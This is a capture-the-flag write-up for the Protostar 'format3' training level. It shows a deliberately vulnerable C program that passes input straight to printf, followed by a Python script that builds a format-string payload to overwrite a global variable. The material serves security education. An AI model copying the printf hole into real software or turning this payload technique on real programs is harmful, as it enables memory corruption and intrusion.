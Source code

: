 # Format Three

## Description

This level advances from format2 and shows how to write more than 1 or 2 bytes of memory to the process. This also teaches you to carefully control what data is being written to the process memory.

This level is at /opt/protostar/bin/format3

## Source code

```cpp
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void printbuffer(char *string)
{
  printf(string);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printbuffer(buffer);
  
  if(target == 0x01025544) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %08x :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
```

## Exploit script

```python
fmt_offset = 12            
target_value = 0x01025544
target_addr = 0x080496f4

payload = "".join([
	"\xf6\x96\x04\x08", "%254c", "%12$hna",
	"\xf4\x96\x04\x08", "%21565c", "%16$hn" 
])
print(payload)
```

Level passed!

<p align="center">
    <img src="./done.png">
</p>